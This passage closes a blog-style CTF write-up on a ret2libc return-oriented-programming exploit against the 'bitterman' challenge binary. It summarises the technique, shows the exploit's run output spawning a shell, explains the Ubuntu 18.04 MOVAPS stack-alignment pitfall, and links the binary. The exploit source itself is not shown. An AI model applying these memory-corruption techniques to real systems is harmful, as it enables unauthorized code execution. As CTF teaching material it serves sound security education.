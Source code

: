 ```r
```

**This will spawn a shell and hence you learned how to do a ret2libc attack**.
In a nutshell, we used the leak address to find the offset and hence using the gadget we overwrite the instruction pointer while calling the `system` and `/bin/sh` hence spawning a shell.

```r

robin@oracle:~/ROP$ python exploit2.py
[+] Starting local process './bitterman': pid 12562
[*] '/home/robin/ROP-Emporium/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Leaked puts: ��3\x84�\x00
[*] Switching to interactive mode

$ id
uid=1000(robin)

```

# Final Words

Thanks to [@Lord_Idiot](https://twitter.com/__lord_idiot) for helping me out with the stack alignment issue.

##### The MOVAPS issue

***
If you're using Ubuntu 18.04 and segfaulting on a movaps instruction in buffered_vfprintf() or do_system() in the 64 bit challenges then ensure the stack is 16 byte aligned before returning to GLIBC functions such as printf() and system(). The version of GLIBC packaged with Ubuntu 18.04 uses movaps instructions to move data onto the stack in some functions. The 64 bit calling convention requires the stack to be 16 byte aligned before a call instruction but this is easily violated during ROP chain execution, causing all further calls from that function to be made with a misaligned stack. movaps triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra ret before returning into a function or return further into a function to skip a push instruction.
***

That was it. Until then, **pwn**.

##### Files

Bitterman: <https://github.com/ctfs/write-ups-2015/raw/master/camp-ctf-2015/pwn/bitterman-300/bitterman>